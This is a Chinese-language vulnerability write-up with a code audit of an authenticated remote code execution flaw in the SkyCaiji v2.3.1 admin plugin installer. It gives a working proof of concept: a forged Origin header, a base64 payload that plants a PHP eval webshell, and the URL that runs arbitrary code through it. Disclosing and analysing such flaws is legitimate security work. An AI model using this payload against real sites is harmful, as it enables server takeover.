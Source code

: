 # 蓝天采集器 v2.3.1 后台getshell

下载2.3.1版本

https://github.com/zorlan/skycaiji

![image](images/img1.png)

## 漏洞复现

文中sky231.com为本地设置域名

漏洞点位于后台安装插件功能处，首先登陆后台

1.访问

```html
http://xxxx.com/index.php?s=/Admin/Store/installPlugin
```

2.添加http头Origin:

```html
http://www.skycaiji.com
```

3.post输入

```html
plugin=eyJhcHAiOiJBYUFhQWEiLCJuYW1lIjoidGVzdDEiLCJ0eXBlIjoicmVsZWFzZSIsIm1vZHVsZSI6InRlc3QyIiwiY29kZSI6IlBEOXdhSEFLTHlvS2JtRnRaWE53WVdObElIQnNkV2RwYmx4eVpXeGxZWE5sWEdOdGN6c0tDbU5zWVhOeklFRmhRV0ZCWVhzS0NYQjFZbXhwWXlBa2NtVnNaV0Z6WlRzS2ZTb3ZDa0JsZG1Gc0tDUmZSMFZVVzJGZEtUc0tQejQ9In0=
```

如图

![image](images/img2.png)

接着会在\plugin\release\cms\下生成AaAaAa.php的一句话后门，如图

![image](images/img3.png)

然后在后台点击发布插件选项卡，接着点击开发按钮，如图

![image](images/img4.png)

这时会引用我们带有一句话木马的文件，在url上添加a参数即可执行任意php代码，进而getshell，以执行phpinfo为例，访问

```html
http://sky231.com/index.php?s=/admin/Develop/releaseCms&app=AaAaAa&a=phpinfo();
```

如图

![image](images/img5.png)

## 代码审计

漏洞出发点位于/SkycaijiApp/admin/controller/Store.php文件中的installPluginAction函数，如图

![image](images/img6.png)

首先代码会执行$this->_checkOrigin();函数，我们跟进一下

![image](images/img7.png)

该函数是用来判断请求的来源是否在白名单中，注意到这里获取请求来源使用了$_SERVER['HTTP_ORIGIN']

这里我们只要在请求时加上一个Origin请求头，并将其值改为白名单中的值就可以了，我们看一下白名单的值

![image](images/img8.png)

回到 installPluginAction函数，接下来函数将传入的plugin参数先进行base64解密在进行json解码，接着调用_installPlugin函数，跟进该函数，如图

![image](images/img9.png)

这里函数先进行了一系列数据判空操作，接着下来如果满足$plugin['type']=='release'这个条件将会调用addCms函数，我们继续跟进addCms函数，函数位于文件/SkycaijiApp/admin/model/ReleaseApp.php 中，如图

![image](images/img10.png)

![image](images/img11.png)

首先函数会判断$cms['app']是否为空，这里无需理会，在利用时只要构造一下就好，接着代码做了三个正则校验，第一个正则来判断$cms['app']是否符合其命名规范，我们可以使其值为AaAaAa来绕过校验，第二个正则用来判断函数传入的$code是否存在命名空间，这里我们可以参考一下位于/plugin/release/cms/BaseCms.php文件中的写法，如图

![image](images/img12.png)

接着是第三个正则，该处是为了判断类名是否存在，要注意的是类名需要与我们设置的$cms['app']一样，这里我们可以这么写

class AaAaAa{

过了三个正则后我们会来到write_dir_file函数，跟进一下该函数，如图

![image](images/img13.png)

该函数用来写文件，那么到目前为止我们就可以在网站中写入一个php文件，但是该文件要存在规定好的命名空间和类，为了写入我们可以利用的一句话，我们可以利用注释符将命名空间和类注视掉，如图

![image](images/img14.png)

接下来就可以构造符合条件得exp了

首先将代码base64编码，然后依据上述分析代码中的条件构造符合的json格式的字符串

```json
{"app":"AaAaAa","name":"test1","type":"release","module":"test2","code":"PD9waHAKLyoKbmFtZXNwYWNlIHBsdWdpblxyZWxlYXNlXGNtczsKCmNsYXNzIEFhQWFBYXsKCXB1YmxpYyAkcmVsZWFzZTsKfSovCkBldmFsKCRfR0VUW2FdKTsKPz4="}
```

接着把改串json字符串base64编码一下就可以post过去进行利用了。

## 参考链接

https://xz.aliyun.com/t/7873
